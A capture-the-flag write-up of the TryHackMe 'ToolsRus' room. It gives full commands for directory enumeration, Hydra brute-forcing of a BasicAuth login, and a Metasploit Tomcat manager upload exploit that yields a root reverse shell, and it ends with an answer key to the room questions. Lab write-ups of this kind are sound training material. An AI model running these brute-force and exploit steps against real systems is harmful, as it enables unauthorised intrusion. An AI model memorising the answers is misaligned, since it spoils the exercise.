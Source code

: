 # ToolsRus | TryHackMe

## Overview
- **Room:** ToolsRus  
- **Difficulty:** Easy  
- **Date:** <your_date_here>  
- **Tags:** Enumeration, Brute-force, Tomcat, Metasploit  

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN nmap_toolsrus.txt <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP  
- 1234/tcp - Apache Tomcat  

---

### Website (Port 80)
Checked the main page → nothing useful.  

Ran gobuster:  
```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Findings:**
- `/guidelines` → revealed username **bob**  
- `/protected` → required credentials (BasicAuth)  

---

### Hydra (Brute-force)
Brute-forced password for bob:  
```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt <IP> http-get /protected/
```

**Result:**  
`bob : bubbles`

---

## Tomcat (Port 1234)

Service enumeration:  
```bash
nmap -sC -sV -p1234 <IP>
```
→ Apache Tomcat/7.0.88  

Checked Tomcat Manager with Nikto:  
```bash
nikto -host http://<IP>:1234/manager/html -id bob:bubbles
```
→ Valid access confirmed  

---

## Exploitation

Used Metasploit:  
```bash
msfconsole
search tomcat_mgr_upload
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
set TARGETURI /manager/html
set LHOST <your_IP>
run
```

Shell obtained:  
```bash
whoami
root
```

---

## Privilege Escalation
Already had root access directly via the exploit.  

---

## Flags
```bash
cd /root
cat flag.txt
```
✅ Root flag retrieved  

---

## Answers to Room Questions
1. **What port is Tomcat running on?** → `1234`  
2. **What is the username found on the website?** → `bob`  
3. **What is bob’s password?** → `bubbles`  
4. **What version of Apache Tomcat is running?** → `7.0.88`  
5. **What exploit was used to gain access?** → `tomcat_mgr_upload`  
6. **What is the user flag?** → Found in `/root/flag.txt`  

---

## Lessons Learned
- `gobuster` helps find hidden directories.  
- Hydra is useful for brute-forcing BasicAuth.  
- Apache Tomcat Manager is dangerous if default creds are guessed.  
- The `tomcat_mgr_upload` Metasploit module provides direct root access.  
